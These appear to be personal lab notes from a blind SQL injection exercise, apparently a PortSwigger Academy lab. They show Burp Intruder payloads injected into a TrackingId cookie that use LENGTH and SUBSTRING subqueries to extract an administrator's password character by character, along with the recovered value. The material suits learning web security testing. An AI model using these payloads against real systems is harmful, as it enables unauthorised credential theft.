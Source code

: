 `Intruder`
```sql
r6QmFU1pxLfPEi8l' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>§1§)='a;
```
perform negative search with burp pro or regular search
- password is `20` chars
![[Pasted image 20241104082055.png]]
![[Pasted image 20241104081932.png]]

#### Determining the passwords value
using `SUBSTRING()` function to extract a single char from the password and test it against specific value
```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

password complexity:
- a-z
- 0-9
![[Pasted image 20241104082659.png]]

add Grep-Match
![[Pasted image 20241104082759.png]]

start
- we determined that the first letter is 's'
![[Pasted image 20241104082940.png]]


Go with a second letter
```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
```

##### Cluster BOMB
Cookie
```sql
Cookie: TrackingId=r6QmFU1pxLfPEi8l' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§;
```

![[Pasted image 20241104084106.png]]

![[Pasted image 20241104084122.png]]

![[Pasted image 20241104084148.png]]

Results
s66btdwc9fgmt9tlggnn
![[Pasted image 20241104083741.png]]
